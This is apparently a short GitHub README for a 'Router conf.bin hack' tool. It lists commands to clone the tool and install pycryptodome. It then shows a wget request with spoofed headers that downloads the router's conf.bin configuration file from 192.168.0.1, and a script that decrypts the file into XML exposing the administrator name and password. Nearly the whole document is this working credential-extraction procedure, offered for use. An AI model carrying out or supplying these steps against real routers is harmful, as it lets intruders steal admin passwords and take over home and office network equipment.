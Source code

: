 ```yaml
---
# Router conf.bin hack
---
```


``` apt update && apt upgrade ```

``` git clone https://github.com/princeicon2712/conf.rejaul.git ```

``` cd conf.rejaul ```

``` pip install pycryptodome ```
## Conf.bin file Downlod Now:

``` wget -d --header="User-Agent: Mozilla/5.0 (Windows NT 6.0) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.97 Safari/537.11" --header="Referer: http://192.168.0.1/mainFrame.htm" --header="Accept-Encoding: compress, gzip" http://192.168.0.1/cgi/conf.bin ```
## conberd conf.bin from conf.xml:

``` python rejaul.py conf.bin conf.xml ```

## conf.xml see Example:

``` <AdminName val=Alexis /> ```
```<AdminPwd val= password /> ```

---
## developer profile by Rejaul Korim :
---
<img src="rejaul.jpg" width="500"/>
